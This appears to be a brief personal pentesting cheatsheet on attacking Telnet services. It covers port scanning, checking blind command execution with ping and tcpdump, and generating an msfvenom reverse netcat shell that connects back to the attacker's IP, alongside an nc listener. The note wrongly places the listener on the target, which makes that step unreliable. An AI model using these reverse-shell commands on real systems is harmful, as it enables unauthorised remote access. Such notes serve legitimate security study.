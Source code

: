 ## Telnet (a net so tel)
​
Is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.
​
​
### Enumerating
​
1. #### Port Scanning
   - [[Nmap#Syn Scan]]
   
   ​
2. #### Gather Information
   - Take note for the information that matters
     
   ​
​
### Exploiting
​
1. #### Enter to the Void
   - Go:
   >[!Tip] Chebra
   >```
   >telnet {target IP} {port}
   >```
   
   ​
2. #### Try commands, try harder
   - It comes easy, if you are trying commands and nothing shows up in the output, then probably is just been executed as a system command. Several ways to try this, try this:
   ​
   - In your ==attacking machine==:
   >[!Tip] Chebra
   >```
   >sudo tcpdump ip proto \\icmp -i {net interface}
   >```
   
   - In the ==target machine==:
   >[!Tip] Chebra
   >```
   >ping {local IP} -c 1
   >```
   
   ​
3. #### Reverse and Forward
   - In your ==attacking machine==:
   >[!Tip] Chebra
   >```
   >msfvenom -p cmd/unix/reverse_netcat lhost={local IP} lport={random port} R
   >```
   
   - In the ==target machine==:
   >[!Tip] Chebra
   >```
   >nc -lvnp {same random port}
   >```
   
   ​
4. #### What's that shiiiiiiiiiiiiiiiit!?
   - Bob Sponge quote; meaning that you must take all advantaje... actually dont mean a shit